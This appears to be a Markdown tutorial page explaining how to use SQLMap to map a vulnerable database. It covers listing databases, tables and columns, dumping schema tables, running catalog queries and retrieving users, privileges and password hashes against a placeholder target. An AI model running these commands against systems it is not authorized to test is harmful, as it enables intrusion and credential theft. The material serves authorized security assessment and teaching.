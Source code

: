 ```yaml
---
title: Database Structure Enumeration
description: Learn how to enumerate database structure using SQLMap
---
```


# Database Structure Enumeration

SQLMap provides powerful capabilities for enumerating database structure once you've identified a SQL injection vulnerability. This guide covers how to discover and map databases, tables, columns, and schema information.

## Basic Database Enumeration

### Listing Available Databases

To list all available databases on the target server:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --dbs
```

This command will enumerate all databases the current user has access to.

### Listing Tables in a Database

Once you've identified a database of interest, you can list all its tables:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D database_name --tables
```

Replace `database_name` with the name of the database you want to explore.

### Listing Columns in a Table

To enumerate columns in a specific table:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D database_name -T table_name --columns
```

This provides the column names and their data types, which is crucial for targeted data extraction.

## Advanced Structure Enumeration

### Database Schema Information

To get comprehensive schema information:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --schema
```

This command retrieves the entire database schema, including all databases, tables, and columns.

### Database Version and User Information

Gather information about the database version and current user:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --banner --current-user --current-db
```

This helps understand the database environment and privileges.

### Database Users and Privileges

Enumerate database users and their privileges:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --users --privileges
```

For MySQL databases, you can also get password hashes:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --passwords
```

## Database-Specific Techniques

### MySQL Structure Enumeration

MySQL stores schema information in the `information_schema` database:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D information_schema --tables
```

To get table statistics:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D information_schema -T TABLES --dump
```

### Microsoft SQL Server Structure Enumeration

For MSSQL, system catalogs provide schema information:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --sql-query="SELECT name FROM master..sysdatabases"
```

### Oracle Database Structure Enumeration

Oracle stores schema information in data dictionary views:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --sql-query="SELECT owner, table_name FROM all_tables"
```

## Optimization Techniques

### Targeted Enumeration

Instead of enumerating everything, target specific databases or tables:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --dbs --exclude-sysdbs
```

This skips system databases, focusing only on user-created databases.

### Using Regular Expressions

Filter tables or columns using regular expressions:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" -D database_name --tables --regexp="user|admin"
```

This returns only tables with "user" or "admin" in their names.

### Batch Processing

For faster enumeration, use batch mode:

```bash
sqlmap -u "http://target-site.com/page.php?id=1" --batch --dbs
```

This automatically selects default options without prompting.

## Visualization and Documentation

After enumerating the database structure, document your findings:

1. Create a database schema diagram
2. Document table relationships
3. Identify sensitive tables and columns
4. Map data flows between tables

This documentation helps in planning the next steps of your security assessment.

## Best Practices

1. **Start broad, then narrow down**: Begin with database enumeration, then focus on interesting tables
2. **Look for naming patterns**: Tables named "admin", "user", "password", etc. often contain valuable information
3. **Understand table relationships**: Foreign keys reveal how data is connected
4. **Document everything**: Keep detailed notes of the database structure
5. **Be mindful of database load**: Excessive enumeration can impact database performance

## Next Steps

After mapping the database structure, you can:

- [Extract specific data](/docs/sqlmap/database-enumeration/data-extraction) from tables of interest
- Explore [file system access](/docs/sqlmap/database-enumeration/file-system-access) capabilities
- Implement [advanced techniques](/docs/sqlmap/advanced-techniques) for deeper exploitation

Remember to always operate within the scope of your authorized security assessment.
